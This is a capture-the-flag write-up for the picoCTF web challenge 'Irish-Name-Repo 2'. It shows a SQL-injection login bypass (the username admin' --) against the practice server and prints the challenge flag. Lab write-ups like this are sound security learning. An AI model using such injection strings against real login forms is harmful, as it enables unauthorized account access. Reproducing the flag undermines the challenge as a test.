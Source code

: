 
# Irish-Name-Repo 2
### Points: 350

## Category
#### Web Exploitation

## Question
#### There is a website running at https://jupiter.challenges.picoctf.org/problem/52849/ [link](https://jupiter.challenges.picoctf.org/problem/52849/). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849
### Hint
>#### The password is being filtered.

## Solution
### Look at this website
![pico](a/04.png)
#### Go to the login page for administrators. 
![pico](a/01.png)
#### Bypass filter: 
```base
Username = admin' --
Password = <blank>
```
![pico](a/02.png)
#### After logging, and retrieve the flag. 
![pico](a/03.png)

## Flag
`picoCTF{m0R3_SQL_plz_fa983901}`